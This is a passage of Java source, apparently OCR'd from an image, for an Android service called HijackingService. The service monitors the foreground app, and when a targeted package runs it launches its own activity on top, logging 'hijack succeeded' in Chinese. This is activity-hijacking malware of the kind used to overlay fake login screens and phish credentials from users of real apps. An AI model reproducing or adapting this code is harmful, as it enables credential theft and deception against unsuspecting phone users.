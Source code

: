 ```
            for( AndroidAppProcess appProcessInfo: Processes){
                Log.w("TAG",appProcessInfo.name);
                /*try {
                    Stat stat = appProcessInfo.stat();
                    int pid = stat.getPid();
                    int parentProcessId = stat.ppid();
                    long startTime = stat.stime();
                    int policy = stat.policy();
                    char state = stat.state();
                    Log.w("TAG","pid："+pid+" parentProcessId:"+parentProcessId+" startTime:"+startTime+" policy:"+policy+" state:"+state);
                } catch (IOException e) {
                    e.printStackTrace();
                }
                */
 
                String ProcessesRunning = ForegroundProcess.getForegroundApp();
                Log.w("TAG============",ProcessesRunning);
                if(map.containsKey(ProcessesRunning)) {
                    // Log.w("TAG","GHZ");
                    //如果包含在我们劫持的map中
                    if (map.containsKey(appProcessInfo.name)) {
                        Log.w("准备劫持", appProcessInfo.name);
                        hijacking(appProcessInfo.name);
                    } else {
                        //Log.w("hijacking",appProcessInfo.getPackageName());
                        //Log.w("abc","123");
                    }
                }
 
            }
            handler.postDelayed(mTask,8000);
        }
        private void hijacking(String progressName){
            //判断是否已经劫持，对劫持的过的程序跳过
            if(!HijackingApplicaiton.hasProgressBeHijacked(progressName)){
                Intent localIntent = new Intent(HijackingService.this.getBaseContext(),HijackingService.this.map.get(progressName));
                localIntent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
                HijackingService.this.getApplication().startActivity(localIntent);
                HijackingApplicaiton.addProgressHijacked(progressName);
                Log.w("TAG====hijacking","已经劫持成功");
            }
        }
    };
 
    @Override
    public void onCreate() {
        super.onCreate();
        if(!isStart){
            map.put("com.cz.babySister",SecondActivity.class);
            this.handler.postDelayed(this.mTask, 1000);
            isStart = true;
        }
 
    }
 
    @Override
    public IBinder onBind(Intent intent) {
        // TODO: Return the communication channel to the service.
        throw new UnsupportedOperationException("Not yet implemented");
    }
 
```